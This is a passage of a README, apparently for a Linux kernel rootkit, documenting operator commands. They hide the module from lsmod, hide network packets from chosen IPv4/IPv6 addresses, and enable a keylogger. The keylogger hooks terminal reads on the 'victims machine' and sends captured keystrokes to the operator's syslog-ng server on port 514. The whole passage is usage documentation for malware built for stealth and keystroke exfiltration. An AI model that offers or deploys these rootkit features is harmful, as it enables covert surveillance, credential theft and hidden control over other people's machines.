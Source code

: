 ```bash
showfile
```

## Kernel module hiding

All kernel modules are being listed when typing lsmod. To prevent this module from being detected,

```bash
hidemod
```

- Unhide

```bash
showmod
```

## Network keylogging

> **Note:** This functionality requires a [ syslog-ng server ] on the users machine.
> The destination port for receiving keylogger data is 514, which can also be changed in the include.h on line 29 (SYS_PORT).

Enable keylogger

```bash
keylog
```

This command hooks the /dev/ttyS0 read function on the victims machine, storing all data typed in a terminal.
The rootkit module allocates a buffer for every terminal (i. e. multiple PIDs when multiple terminals) and sends them to the user (you).
The data is then stored in your log file (path of the file depends on how you configure your[ syslog-ng server ] on your machine).
To disable the keylogger, send

```bash
keyunlog
```

## IPv4/IPv6 packet hiding

This time, we need to specify a transportation protocol and a senders IP address as a param, for example:

```bash
hidepacket-udp4-192.168.2.141
```

or for IPv6 addresses, either the full or shortened way:

```bash
hidepacket-udp6-0123:4567:89ab:cdef:0123:4567:89ab:cdef
hidepacket-tcp6-::1
```
